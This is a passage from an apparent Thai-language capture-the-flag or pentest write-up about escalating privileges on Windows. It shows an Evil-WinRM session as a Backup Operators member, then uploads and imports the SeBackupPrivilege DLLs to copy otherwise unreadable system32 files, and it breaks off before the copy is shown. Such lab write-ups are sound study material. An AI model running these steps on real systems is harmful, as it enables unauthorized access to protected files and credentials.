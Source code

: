 
```powershell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> net user svc_backup
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.


```

> [Backup Operators](https://www.backup4all.com/what-are-backup-operators-kb.html) is a default Windows group that is designed to backup and restore files on the computer using certain methods to read and write all (or most) files on the system.

# Priv Es
## Copy-FileSeBackupPrivilege

Ref: https://github.com/giuliano108/SeBackupPrivilege.git 

เราสามารถใช้ Repo ด้านบนสำหรับดำเนินการใช้สิทธิ Backup ได้ จากนั้นเราจะทำการ upload module จำนวน 2 โมดูลประกอบไปด้วย SeBackupPrivilegeCmdLets.dll และ SeBackupPrivilegeUtils.dll 

```bash
upload SeBackupPrivilegeUtils.dll

upload SeBackupPrivilegeCmdLets.dll

## จากนั้นเราจะ Import-module ผ่าน evil-winrm 
import-module .\SeBackupPrivilegeUtils.dll
import-module .\SeBackupPrivilegeCmdLets.dll
```
เราจะทำการทดสอบอ่านข้อมูลภายใต้ system32 ซึ่งจะเห็นได้ว่าไม่สามารถอ่านได้ แต่เรากลับสามารถ Copy ไฟล์ไปไว้ที่ path ที่กำหนดแล้วอ่านได้ ตามภาพด้านล่าง 